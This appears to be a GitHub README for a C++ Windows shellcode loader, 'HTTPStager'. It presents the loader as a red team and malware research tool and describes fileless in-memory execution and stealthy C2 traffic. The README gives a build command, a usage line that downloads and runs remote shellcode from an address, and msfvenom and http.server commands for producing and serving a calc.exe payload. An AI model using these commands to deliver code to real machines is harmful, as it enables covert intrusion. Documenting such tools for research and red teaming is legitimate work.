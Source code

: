 A minimal C++ shellcode loader for Windows written for red team, malware research, and educational purposes.

## 🚀 Description

This tool demonstrates:
- Downloading remote shellcode via HTTP
- Allocating RWX memory with `VirtualAlloc`
- Executing shellcode directly from memory (fileless execution)
- Using the `wininet` API for stealthy C2 traffic

> 🔐 Educational use only. Unauthorized use of this code is illegal.

## 📂 Filename

**HTTPStager.cpp** – Console-based shellcode loader (C++)

## 📌 Technique

**In-memory shellcode execution over HTTP**

- **Download stage**: Retrieves shellcode from a remote URL
- **Memory stage**: Allocates executable memory (`PAGE_EXECUTE_READWRITE`)
- **Execution**: Transfers control to shellcode via a function pointer

## 🧱 Requirements

- `x86_64-w64-mingw32-g++` (MinGW-w64)
- Windows target

## ⚙️ Build

```bash
x86_64-w64-mingw32-g++ HTTPStager.cpp -o HTTPStager.exe -static -lwininet -s -Wl,-subsystem,console
```

## 🧪 Usage

```bash
HTTPStager.exe http://<ip_address>/shellcode.bin
```

## 🛠️ Example Shellcode Generation

Using msfvenom:
```bash
msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o shellcode.bin
```

Serve with python:
```bash
python3 -m http.server 80
```

Then run
```bash
HTTPStager.exe http://127.0.0.1/shellcode.bin
```
